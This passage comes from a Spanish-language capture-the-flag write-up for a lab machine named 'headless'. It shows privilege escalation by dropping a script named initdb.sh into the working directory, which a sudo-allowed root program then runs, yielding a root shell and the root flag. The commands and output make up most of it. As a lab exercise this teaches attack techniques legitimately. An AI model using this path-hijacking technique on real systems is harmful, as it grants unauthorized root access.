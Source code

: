 Esto significa que simplemente podemos crear un script de bash con el mismo nombre en nuestra ruta y esta cosa lo ejecutará como si nada:

```bash
dvir@headless:~$ cat initdb.sh
#!/bin/bash
ls -la /root
dvir@headless:~$ chmod +x initdb.sh 
dvir@headless:~$ sudo -u root /usr/bin/syscheck
Last Kernel Modification Time: 01/02/2024 10:05
Available disk space: 1.9G
System load average:  0.20, 0.14, 0.10
Database service is not running. Starting it...
total 40
drwx------  6 root root 4096 Jul 20 18:03 .
drwxr-xr-x 18 root root 4096 Feb 16 23:49 ..
lrwxrwxrwx  1 root root    9 Feb  2 16:07 .bash_history -> /dev/null
-rw-r--r--  1 root root  571 Apr 10  2021 .bashrc
drwx------  5 root root 4096 Sep 10  2023 .cache
-rw-------  1 root root   20 Feb 17 00:31 .lesshst
drwxr-xr-x  3 root root 4096 Sep 10  2023 .local
drwx------  3 root root 4096 Sep 10  2023 .mozilla
-rw-r--r--  1 root root  161 Jul  9  2019 .profile
-rw-r-----  1 root root   33 Jul 20 18:03 root.txt
drwx------  2 root root 4096 Sep  9  2023 .ssh
```

Con esto simplemente agregamos un `bash` u otra cosa al script y ya podremos ejecutar comandos como root para tomar la última flag.

```bash
dvir@headless:~$ sudo -u root /usr/bin/syscheck
Last Kernel Modification Time: 01/02/2024 10:05
Available disk space: 1.9G
System load average:  0.17, 0.14, 0.10
Database service is not running. Starting it...
cd ..
ls
dvir
script /dev/null -c bash
Script started, output log file is '/dev/null'.
root@headless:/home# cd /root
root@headless:~# ls
root.txt
root@headless:~# cat root.txt
82ede95a45c370c72850c27f53******
```